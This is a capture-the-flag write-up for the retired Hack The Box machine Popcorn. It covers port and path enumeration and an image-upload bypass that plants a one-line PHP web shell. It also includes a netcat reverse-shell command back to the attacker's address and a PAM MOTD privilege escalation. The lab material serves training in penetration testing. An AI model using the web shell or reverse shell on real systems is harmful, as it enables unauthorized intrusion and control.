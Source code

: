 # Popcorn

This is the write-up for the box Popcorn that got retired at the 25th June 2017.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.6    popcorn.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/popcorn.nmap 10.10.10.6
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we find the default "It works" message from an Apache2 installation.
So lets enumerate paths with **Gobuster**:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://10.10.10.6
```

We get the following paths back:
- /index (Status: 200)
  - The index file we have seen
- /test (Status: 200)
  - Displays the PHP version file and it is 5.2.10
- /torrent (Status: 301)
  - Shows some Torrent hosting service powered by _Torrent Hoster_
- /rename (Status: 301)
  - Renamer API Syntax: index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name
- /server-status (Status: 403)

That torrent page has an Upload button but we need an account to access it.

![Sign Up on torrent page](popcorn_sign-up.png)

After login we can try to upload anything but we get a message to upload an **Torrent file**. If we look at the _Browse_ tab, we see that there is already one uploaded and the link is:
```markdown
http://10.10.10.6/torrent/torrents.php?mode=download&id=723bc28f9b6f924cca68ccdff96b6190566ca6b4
```

Now we need to find where this file is located on the box and after some trying we find the path **/torrent/upload** but with only two PNG files.
One of the PNG files has the same string as the uploaded file and leads to the image file that was uploaded with it.

The upload of PHP files doesn't work here either but we can add the first magic bytes of an image file to an PHP file and upload that.

We append the following code at the end of some bytes of a PNG file and send the request again:
```php
<?php echo system($_REQUEST['cmd']); ?>
```

![Upload webshell in Burpsuite](popcorn_upload-bs.png)

When we browse back to the upload directory we see the PHP file:

![Upload successful](popcorn_upload-success.png)

Now we have code execution and can start a reverse shell with:
```markdown
/torrent/upload/670acf31ef5489934e6023980c419926e764e0d3.php?cmd=nc+-e+/bin/sh+10.10.14.10+9001
```

We get a reverse shell as user _www-data_ and permission to read the user flag.

## Privilege Escalation

When looking through the home folder of _George_ one thing that stands out is the file **motd.legal-displayed** in the **.cache** folder.
This stands for _Message Of The Day_ and we can look for privilege escalation vulnerabilities:
```markdown
searchsploit motd
```

There is one for the application **PAM**:
> Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)

Checking if we got this or an older version of PAM on the box:
```markdown
dpkg -l | grep -i pam
```
```markdown
ii  libpam-modules              1.1.0-2ubuntu1            Pluggable Authentication Modules for PAM
ii  libpam-runtime              1.1.0-2ubuntu1            Runtime support for the PAM library
ii  libpam0g                    1.1.0-2ubuntu1            Pluggable Authentication Modules library
```

We see the version 1.1.0 on the box and can upload the script and run it:

![Running the Privilege Escalation Exploit](popcorn_privesc.png)

Now we are root!

